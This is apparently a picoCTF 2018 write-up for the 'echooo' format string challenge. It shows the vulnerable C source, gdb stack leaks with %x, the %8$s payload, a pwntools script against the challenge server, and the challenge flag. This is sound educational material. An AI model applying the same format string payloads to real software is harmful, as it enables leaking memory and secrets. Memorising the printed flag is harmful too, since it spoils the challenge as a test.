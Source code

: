 # echooo
**Points: 300**

## Binary Exploitation

## Question
>This program prints any input you give it. Can you leak the flag? Connect with nc 2018shell.picoctf.com 46960. Source.

### Hint
>If only the program used puts...

## Solution
**Source code:**
```c
int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);

  char buf[64];
  char flag[64];
  char *flag_ptr = flag;
  
  // Set the gid to the effective gid
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  memset(buf, 0, sizeof(flag));
  memset(buf, 0, sizeof(buf));

  puts("Time to learn about Format Strings!");
  puts("We will evaluate any format string you give us with printf().");
  puts("See if you can get the flag!");
  
  FILE *file = fopen("flag.txt", "r");
  if (file == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }
  
  fgets(flag, sizeof(flag), file);
  
  while(1) {
    printf("> ");
    fgets(buf, sizeof(buf), stdin);
    printf(buf);
  }  
  return 0;
}
```
We know that this a format string challenge because of **printf(buf);**

Let's create a pattern to leak addresses:

![img1](images/1.png)

```bash
~ python -c 'print "%x "*20'
%x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x
~ echo '1r0nh4ck3d' > flag.txt
~ gdb -q echo
```
The flag is **1r0nh4ck3d**, we need to find the address and then try to leak it.
```console
gdb-peda$ b * 0x0804873d
gdb-peda$ find "1r0nh4ck3d"
[stack] : 0xffffcf8c ("1r0nh4ck3d\n")
> %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x
40 f7f995c0 8048647 0 f7fde80e 8048248 ffffd084 **ffffcf8c** 0 804b160 25207825 78252078 20782520 25207825 78
252078 20782520 25207825 78252078 20782520 25207825
```
![img2](images/2.png)

As you see we've leaked the address of the flag in the 8th place.
So to get the flag: **%8$s**
![img3](images/3.png)

**Remotely:**
```python
from pwn import *

p = remote('2018shell.picoctf.com', 46960)
print p.recvuntil('> ')
p.sendline('%8$s')
print p.recv()
```
![img4](images/4.png)

### Flag
`picoCTF{foRm4t_stRinGs_aRe_DanGer0us_a7bc4a2d}`
